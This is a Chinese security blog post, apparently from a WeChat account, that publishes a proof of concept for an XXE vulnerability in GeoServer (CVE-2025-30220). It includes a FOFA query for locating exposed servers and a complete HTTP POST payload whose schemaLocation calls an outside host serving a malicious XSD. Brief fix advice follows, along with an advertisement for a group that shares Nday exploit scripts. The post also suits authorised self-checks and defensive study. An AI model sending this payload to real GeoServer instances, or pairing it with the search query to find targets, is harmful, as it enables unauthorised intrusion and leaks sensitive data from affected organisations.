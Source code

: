 #  GeoServer XXE漏洞 (CVE-2025-30220)  
Superhero  Nday Poc   2025-06-25 02:10  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkYN4sZibCVo6EFo0N9b7Kib4I4N6j6Y10tynLOdgov9ibUmaNwW5yeoCbQ/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCkhic5lbbPcpxTLtLccZ04WhwDotW7g2b3zBgZeS5uvFH4dxf0tj0Rutw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Melo944GVOJECe5vg2C5YWgpyo1D5bCk524CiapZejYicic1Hf8LPt8qR893A3IP38J3NMmskDZjyqNkShewpibEfA/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
内容仅用于学习交流自查使用，由于传播、利用本公众号所提供的  
POC  
信息及  
POC对应脚本  
而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号Nday Poc及作者不为此承担任何责任，一旦造成后果请自行承担！  
  
  
**01**  
  
**漏洞概述**  
  
  
GeoServer是一个功能齐全,遵循OGC开放标准的开源WFS-T和WMS服务器。CVE-2025-30220 中，攻击者可构造恶意请求触发XXE漏洞，造成敏感信息泄漏。漏洞根源在于Geotools，因此 GeoServer与GeoNetwork 均受影响。  
  
**02******  
  
**搜索引擎**  
  
  
FOFA:  
```
app="GeoServer"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIfu4NibQcTDIu0rFd915wauibfOd7ciaIb6XBhPcaCJADolJMPiadeY0lGVkSJ3mCWWggCZyaicdsMN5Q/640?wx_fmt=png&from=appmsg "")  
  
  
**03******  
  
**漏洞复现**  
```
POST /geoserver/wfs HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Fedora; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Connection: close
Content-Length: 353
Content-Type: application/xml
Accept-Encoding: gzip

<wfs:GetFeature service="WFS" version="1.0.0"
xmlns:wfs="http://www.opengis.net/wfs"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:topp="http://www.openplans.org/topp"
xsi:schemaLocation="http://a http://xjsackqijs.lfcx.eu.org/xxe.xsd"
outputFormat="KML">
<wfs:Query typeName="topp:states"/>
</wfs:GetFeature>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIfu4NibQcTDIu0rFd915wau8GPgwzibRbvjlBe058zIwliaQhsg9pPWWSic7ehh9xaGAt6wFFjH1L0icQ/640?wx_fmt=png&from=appmsg "")  
  
  
**04**  
  
**自查工具**  
  
  
nuclei  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIfu4NibQcTDIu0rFd915wauc9tMGwZUTJsZ3Nj3pibb8zFyqlhAVg52S2zWKdLmV3DVsUJxLhLibyTw/640?wx_fmt=png&from=appmsg "")  
  
afrog  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIfu4NibQcTDIu0rFd915wauiaW4Dqonh7puKbFJ6P7OX7p2pH1WU6SQIPOGga3GLviaXWDK4KcUKCYg/640?wx_fmt=png&from=appmsg "")  
  
xray  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwIfu4NibQcTDIu0rFd915wauPWeoiaibLOPrL4qqb6kJBhl8oG0DDAmXcjJywDexxgC7mHQF30sRjSEw/640?wx_fmt=png&from=appmsg "")  
  
  
**05******  
  
**修复建议**  
  
  
1、关闭互联网暴露面或接口设置访问权限  
  
2、升级至安全版本  
  
  
**06******  
  
**内部圈子介绍**  
  
  
【Nday漏洞实战圈】🛠️   
  
专注公开1day/Nday漏洞复现  
 · 工具链适配支持  
  
 ✧━━━━━━━━━━━━━━━━✧   
  
🔍 资源内容  
  
 ▫️ 整合全网公开  
1day/Nday  
漏洞POC详情  
  
 ▫️ 适配Xray/Afrog/Nuclei检测脚本  
  
 ▫️ 支持内置与自定义POC目录混合扫描   
  
🔄 更新计划   
  
▫️ 每周新增7-10个实用POC（来源公开平台）   
  
▫️ 所有脚本经过基础测试，降低调试成本   
  
🎯 适用场景   
  
▫️ 企业漏洞自查 ▫️ 渗透测试 ▫️ 红蓝对抗   
▫️ 安全运维  
  
✧━━━━━━━━━━━━━━━━✧   
  
⚠️ 声明：仅限合法授权测试，严禁违规使用！  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/wnJTy44dqwJKWdxUn094Cic1ZZRhL6prjt5uiaHfc4IeZ9wcqphAZLP6PMJDYOOgDEPiayDredANxCO4A7UaBshTg/640?wx_fmt=png&from=appmsg&watermark=1&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
